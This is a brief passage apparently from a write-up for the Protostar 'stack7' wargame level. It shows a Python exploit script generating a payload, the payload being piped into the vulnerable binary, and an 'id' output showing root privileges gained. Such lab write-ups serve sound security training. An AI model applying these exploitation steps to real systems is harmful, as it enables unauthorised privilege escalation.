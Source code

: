 ```bash
python exploit7.py > exploit7
```

```
cat /tmp/exploit7 - | ./stack7
$ id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
```

![alt text](protostarPNG/stack-70.png "stack07")
